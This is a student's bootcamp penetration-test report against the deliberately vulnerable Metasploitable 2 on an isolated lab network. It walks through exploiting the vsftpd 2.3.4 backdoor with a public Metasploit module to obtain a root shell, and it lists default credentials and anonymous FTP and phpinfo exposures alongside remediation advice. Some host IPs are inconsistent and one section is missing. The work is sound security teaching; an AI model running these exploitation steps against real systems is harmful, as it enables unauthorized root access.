# Digital Forensics & Cyber Security Bootcamp — Day 3 Assignment
## From Vulnerability Scanning to Exploitation and Reporting

**Student:** Wash Dil Khan 
**Course:** Digital Forensics & Cyber Security Bootcamp  
**Assignment:** Day 3 — Vulnerability Scanning to Reporting  
**Target:** Metasploitable 2  
**Target IP:** `192.168.174.129`  
**Attacker Machine:** Kali Linux  
**Scanning Tool:** Greenbone Vulnerability Management (GVM / OpenVAS)  
**Exploitation Tool:** Metasploit Framework  
**Assessment Type:** Grey-box (for the lab scenario described in the handout)  
**Network:** Isolated host-only laboratory network  
**Date:** 08-11-2026

---

# 1. Executive Summary

## 1.1 Overview

A vulnerability assessment and penetration test was conducted against the Metasploitable 2 virtual machine in an isolated laboratory environment.

The assessment included network and service discovery, automated vulnerability scanning using Greenbone Vulnerability Management (GVM), manual vulnerability research, and controlled exploitation using the Metasploit Framework.

The primary objective was to identify security weaknesses, validate their potential impact, and recommend appropriate remediation measures.

## 1.2 Assessment Summary

| Item | Details |
|---|---|
| Target IP | 192.168.174.129 |
| Operating System | Metasploitable 2 |
| Assessment Type | Grey-box |
| Manual Scanning | Nmap |
| Automated Scanning | Greenbone / OpenVAS |
| Exploitation | Metasploit |
| Testing Environment | Isolated virtual laboratory |

## 1.3 Vulnerability Summary

The following are the four candidate findings to verify against your scan results.

| # | Finding | Suggested Severity |
|---|---|---|
| 1 | Backdoor Command Execution in vsftpd 2.3.4 | Critical |
| 2 | Weak Default Credentials on Multiple Services | High |
| 3 | Anonymous FTP Access Enabled | Medium |
| 4 | Information Disclosure Through PHP Information Page | Medium |

**Important:** These are candidate findings, not confirmed results from your machine. Include only the findings supported by your actual scan and validation evidence.

## 1.4 Primary Impact

The most serious potential issue is the backdoor in vsftpd 2.3.4. If confirmed and successfully exploited in the authorized laboratory, it can provide unauthenticated remote command execution with root privileges.

Weak default credentials may also allow unauthorized access to services and increase the risk of further compromise.

---

# 2. Engagement Scope and Details

## 2.1 Scope

The assessment was limited to the intentionally vulnerable Metasploitable 2 virtual machine.

| Scope Element | Details |
|---|---|
| Target | Metasploitable 2 |
| Target IP | 192.168.174.129 |
| Attacker | Kali Linux |
| Testing Type | Grey-box laboratory assessment |
| Network | Host-only / isolated network |
| Tools | Nmap, GVM/OpenVAS, Metasploit |
| Testing Activities | Discovery, scanning, validation, controlled exploitation |
| Excluded Activities | Testing external systems, denial of service, destructive actions |

## 2.2 Assessment Type

This assessment follows a grey-box approach.

A grey-box assessment provides the tester with partial information or access to the target environment. It represents a situation where an attacker may have some initial knowledge, credentials, or access.

It combines external discovery with testing from an informed starting position.

## 2.3 Methodology

The following methodology was used:

1. Confirm the laboratory network and target connectivity.
2. Discover the target and identify open ports.
3. Identify running services and their versions.
4. Perform automated vulnerability scanning with GVM.
5. Research and validate identified vulnerabilities.
6. Perform controlled exploitation of the vsftpd vulnerability.
7. Record evidence and assess the potential business impact.
8. Recommend remediation measures.

---

# 3. Findings and Proofs of Concept

## Finding 1 — Backdoor Command Execution in vsftpd 2.3.4

<badge color="danger">Critical</badge>

### 3.1 Vulnerability Details

| Property | Value |
|---|---|
| Finding | Backdoor Command Execution in vsftpd 2.3.4 |
| Severity | Critical |
| CVE | CVE-2011-2523 |
| CWE | CWE-78 — OS Command Injection |
| Affected Host | 192.168.50.129 |
| Affected Port | 21/TCP |
| Service | FTP |
| Version | vsftpd 2.3.4 |
| CVSS v3.1 | 9.8 |

### 3.2 Description

The vsftpd 2.3.4 distribution archive released between June 30 and July 3, 2011, contained a malicious backdoor.

When a specially crafted username was submitted, the backdoor could open a command shell on TCP port 6200.

An attacker could potentially execute commands remotely without normal authentication.

### 3.3 Discovery

The service version was identified using Nmap.

**Command:**

```bash
nmap -sV -p21 192.168.174.129
```

**Expected result:**

```text
21/tcp open ftp vsftpd 2.3.4
```

**Explanation:**

The `-sV` option enables service version detection. Nmap identifies the FTP service and its reported version.

<SCREENSHOT 1 — Nmap identifies vsftpd 2.3.4>
>

### 3.4 Vulnerability Validation

The following Nmap script checks for the known vsftpd backdoor:

```bash
nmap -p21 --script ftp-vsftpd-backdoor 192.168.174.129
```

**Expected observation:**

The script may identify the service as vulnerable to CVE-2011-2523.

**Explanation:**

The script performs a targeted check for the known backdoor behavior.

<SCREENSHOT 2 — Nmap vulnerability detection output>
>

### 3.5 Exploitation Using Metasploit

Start Metasploit:

```bash
msfconsole -q
```

Search for the relevant exploit:

```text
search vsftpd 2.3.4
```

Select the module:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
```

Display the required options:

```text
show options
```

Configure the target:

```text
set RHOSTS 192.168.174.129
```

Run the exploit:

```text
exploit
```

**Expected result in the course laboratory:**

```text
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session opened
```

**Explanation of commands:**

| Command | Purpose |
|---|---|
| `msfconsole -q` | Starts the Metasploit console quietly. |
| `search` | Searches for an available exploit module. |
| `use` | Selects the exploit module. |
| `show options` | Displays required module settings. |
| `set RHOSTS` | Defines the target IP address. |
| `exploit` | Runs the selected exploit. |

<SCREENSHOT 3 — Metasploit exploit configuration and execution>
>
>

### 3.6 Confirming Access

After obtaining the shell, execute:

```bash
id
```

**Expected output:**

```text
uid=0(root) gid=0(root) groups=0(root)
```

**Explanation:**

The `id` command displays the current user's identity and group membership. The output confirms root-level access if it matches the result above.

<SCREENSHOT 4 — Shell access and id command output>
>
### 3.7 Impact

Successful exploitation could provide unauthenticated remote command execution with root privileges.

This may result in:

- Unauthorized access to system files.
- Exposure of confidential information.
- Modification or deletion of files.
- Installation of malicious software.
- Disruption of services.
- Further compromise of systems accessible from the target.

### 3.8 Remediation

1. Replace the compromised software with a trusted, verified release.
2. Install software only from trusted sources.
3. Verify package signatures and checksums.
4. Disable unnecessary FTP services.
5. Restrict access to FTP using firewall rules.
6. Monitor systems for suspicious processes and network connections.

### 3.9 References

- https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://www.cve.org/CVERecord?id=CVE-2011-2523

---

## Finding 2 — Weak Default Credentials on Multiple Services

<badge color="warning">High</badge>

### 3.10 Vulnerability Details

| Property | Value |
|---|---|
| Finding | Weak Default Credentials |
| Severity | High — validate against actual exposure |
| CWE | CWE-1392 — Use of Default Credentials |
| Affected Host | 192.168.50.129 |
| Accounts | `user:user`, `msfadmin:msfadmin` |
| Potential Services | FTP, SSH, and other exposed login services |

### 3.11 Description

Default credentials are usernames and passwords that are supplied with a system or application and are not changed during installation.

The laboratory handout identifies two example credential pairs:

```text
Username: user
Password: user
```

```text
Username: msfadmin
Password: msfadmin
```

These credentials are publicly documented and may allow unauthorized users to access services if they remain unchanged.

### 3.12 Discovery and Validation

First, identify the exposed services:

```bash
nmap -sV -p21,22,3306,80 192.168.174.129
```

Then verify the credentials only against the authorized lab services.

For FTP:

```bash
ftp 192.168.174.129
```

Enter the credentials if the server prompts for them.

For SSH:

```bash
ssh msfadmin@192.168.174.129
```

Use the password only if you have confirmed it is the lab's authorized account.

**Expected observations from the handout:**

```text
230 Login successful.
```

For SSH, record whether authentication succeeds on your own target.

<SCREENSHOT 5 — Successful FTP authentication in the lab>
>

### 3.13 Impact

Weak default credentials may allow an attacker to:

- Access restricted services.
- Read sensitive information.
- Modify files.
- Access other services using reused credentials.
- Attempt privilege escalation if the account has excessive permissions.

The actual impact depends on the account privileges and the services where the credentials work.

### 3.14 Remediation

1. Change all default credentials before connecting a system to a network.
2. Enforce strong, unique passwords.
3. Use a password manager.
4. Disable unnecessary accounts.
5. Avoid password reuse between services.
6. Enable multi-factor authentication for administrative services where possible.
7. Review account permissions regularly.

### 3.15 References

- https://cwe.mitre.org/data/definitions/1392.html
- https://nvd.nist.gov/

---

## Finding 3 — Anonymous FTP Access Enabled

<badge color="warning">Medium</badge>

### 3.16 Vulnerability Details

| Property | Value |
|---|---|
| Finding | Anonymous FTP Access |
| Suggested Severity | Medium |
| CWE | CWE-306 — Missing Authentication for Critical Function |
| Affected Host | 192.168.174.129 |
| Port | 21/TCP |
| Service | FTP |

### 3.17 Description

Anonymous FTP allows users to access an FTP server without a personal account.

If anonymous access is enabled unnecessarily, unauthorized users may access files stored on the server.

The risk is greater when the server permits anonymous users to upload, modify, or delete files.

### 3.18 Discovery

Run:

```bash
nmap -p21 --script ftp-anon 192.168.174.129
```

**Possible output:**

```text
21/tcp open ftp
| ftp-anon: Anonymous FTP login allowed
```

**Explanation:**

The `ftp-anon` script checks whether the FTP service permits anonymous authentication.

<SCREENSHOT 6 — Anonymous FTP detection using Nmap>
>

### 3.19 Proof of Concept

Connect to the FTP service:

```bash
ftp 192.168.50.129
```

When prompted for a username, enter:

```text
anonymous
```

If the server accepts anonymous access, record the result.

Inspect accessible directories:

```text
pwd
ls
```

Do not upload, delete, or modify files unless the lab specifically requires it.

<SCREENSHOT 6 — Anonymous FTP login and accessible directory listing>
>

### 3.20 Impact

Anonymous FTP access may expose files to unauthorized users.

If confidential files are accessible, confidentiality is affected. If anonymous upload or modification is enabled, integrity may also be affected.

### 3.21 Remediation

1. Disable anonymous FTP if it is not required.
2. Require authentication for restricted files.
3. Apply appropriate file and directory permissions.
4. Restrict FTP access using firewall rules.
5. Prefer secure file transfer protocols such as SFTP.
6. Monitor FTP logs for suspicious activity.

### 3.22 References

- https://nmap.org/nsedoc/scripts/ftp-anon.html
- https://cwe.mitre.org/data/definitions/306.html

---

## Finding 4 — Information Disclosure Through PHP Information Page

<badge color="warning">Medium</badge>

### 3.23 Vulnerability Details

| Property | Value |
|---|---|
| Finding | Publicly Accessible PHP Information Page |
| Suggested Severity | Medium |
| CWE | CWE-200 — Exposure of Sensitive Information |
| Affected Host | 192.168.174.129 |
| Port | 80/TCP |
| Service | HTTP |
| Resource | `/phpinfo.php` |

### 3.24 Description

A PHP information page can expose details about the server's PHP configuration and execution environment.

Depending on the configuration, it may reveal:

- PHP version.
- Operating system information.
- Loaded PHP extensions.
- Environment variables.
- Server paths.
- Configuration settings.

An attacker may use this information to understand the server environment and identify additional weaknesses.

### 3.25 Discovery

Run:

```bash
nmap -p80 --script http-enum 192.168.174.129
```

Then open the following address in a browser:

```text
http://192.168.174.129/phpinfo.php
```

**Expected observation:**

The PHP information page may display server configuration details.

<SCREENSHOT 7 — Nmap identifies the PHP information page>
>

<SCREENSHOT 10 — PHP information page in the browser>
>

### 3.26 Proof of Concept

1. Identify the HTTP service.
2. Enumerate available web resources.
3. Open `/phpinfo.php` in a browser.
4. Observe the information displayed without authentication.
5. Record the sensitive configuration details that are actually exposed.

Do not claim that the page exposes passwords or secrets unless your evidence confirms that.

### 3.27 Impact

An attacker may use the exposed information to identify software versions, server configuration weaknesses, and possible attack paths.

The information disclosure does not automatically provide remote code execution. Its impact depends on the information exposed and whether it can be combined with other vulnerabilities.

### 3.28 Remediation

1. Remove publicly accessible PHP information pages from production systems.
2. Restrict diagnostic pages to administrators.
3. Disable unnecessary diagnostic functionality.
4. Review environment variables and configuration files for exposed secrets.
5. Avoid displaying sensitive configuration information to unauthenticated users.

### 3.29 References

- https://cwe.mitre.org/data/definitions/200.html
- https://www.php.net/manual/en/function.phpinfo.php

---


# 5. Exploitation Write-up — Metasploit

## 5.1 Objective

The objective of this exercise was to demonstrate the impact of CVE-2011-2523 by exploiting the vulnerable vsftpd 2.3.4 service on the authorized Metasploitable 2 laboratory machine.

The test was conducted within an isolated virtual environment.

## 5.2 Target Information

| Property | Value |
|---|---|
| Target IP | 192.168.174.129 |
| Attacker IP | [Insert Kali IP] |
| Target Port | 21/TCP |
| Service | vsftpd 2.3.4 |
| Exploit | `exploit/unix/ftp/vsftpd_234_backdoor` |

## 5.3 Step 1 — Start Metasploit

```bash
msfconsole -q
```

**Purpose:** Starts the Metasploit Framework console.

<SCREENSHOT 17 — Metasploit console started>

## 5.4 Step 2 — Search for the Exploit

```text
search vsftpd 2.3.4
```

**Purpose:** Searches the Metasploit module database for an exploit related to vsftpd 2.3.4.

**Expected module:**

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

<SCREENSHOT 18 — Metasploit search result>

## 5.5 Step 3 — Select the Exploit

```text
use exploit/unix/ftp/vsftpd_234_backdoor
```

**Purpose:** Selects the exploit module that targets the known vsftpd 2.3.4 backdoor.

## 5.6 Step 4 — Display Module Options

```text
show options
```

**Purpose:** Displays the parameters required by the selected module.

| Option | Purpose |
|---|---|
| RHOSTS | Target IP address |
| RPORT | Target service port |

<SCREENSHOT  — Module options displayed>
>

## 5.7 Step 5 — Configure the Target

```text
set RHOSTS 192.168.174.129
```

**Purpose:** Defines the target host against which the module will run.

## 5.8 Step 6 — Execute the Exploit

```text
exploit
```

**Purpose:** Executes the selected module against the configured target.

**Expected laboratory result:**

```text
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session opened
```

<SCREENSHOT 20 — Successful Metasploit exploitation result>
> 
## 5.9 Step 7 — Confirm Privileges

After obtaining the command shell, execute:

```bash
id
```

**Expected result:**

```text
uid=0(root) gid=0(root) groups=0(root)
```

**Purpose:** Verifies the privileges of the current shell.

If the result confirms `uid=0(root)`, the test demonstrates root-level command execution.

<SCREENSHOT Root privileges confirmed using id>
> 


## 5.10 Exploitation Result

The exploitation demonstrates that the vulnerable FTP service can provide unauthorized remote command execution.

Root-level access represents a serious security impact because it can allow an attacker to control the affected system.

The test was limited to validating access in the laboratory. No persistence mechanism, destructive activity, or unauthorized data extraction was performed.

---

# 6. Remediation Plan

The following remediation actions should be prioritised.

| Priority | Finding | Recommended Action |
|---|---|---|
| 1 | vsftpd 2.3.4 backdoor | Replace compromised software with a trusted, verified release. |
| 2 | Weak default credentials | Change default passwords and enforce strong, unique credentials. |
| 3 | Anonymous FTP | Disable anonymous access unless it is required. |
| 4 | PHP information disclosure | Remove or restrict public access to diagnostic pages. |

## 6.1 General Security Recommendations

- Keep operating systems and applications updated.
- Disable unnecessary services and open ports.
- Apply least-privilege access controls.
- Use strong and unique passwords.
- Restrict administrative interfaces to trusted networks.
- Monitor service logs and authentication attempts.
- Conduct regular vulnerability assessments.
- Verify software integrity before installation.
- Maintain backups and an incident response plan.

---

# 7. Final Conclusion

The Day 3 assessment demonstrates the complete process of moving from vulnerability discovery to controlled exploitation and professional reporting.

Nmap helped identify exposed services and their versions. Greenbone provided automated vulnerability assessment, while manual validation helped determine whether identified weaknesses were genuine.

Metasploit demonstrated the potential impact of the vsftpd 2.3.4 backdoor in the isolated laboratory. The exercise also highlighted the importance of weak credentials, unnecessary anonymous access, and information disclosure.

The main lesson is that a professional security assessment is not simply a list of vulnerabilities. It must provide reliable evidence, explain the actual impact, and give the organization practical steps to reduce risk.

---
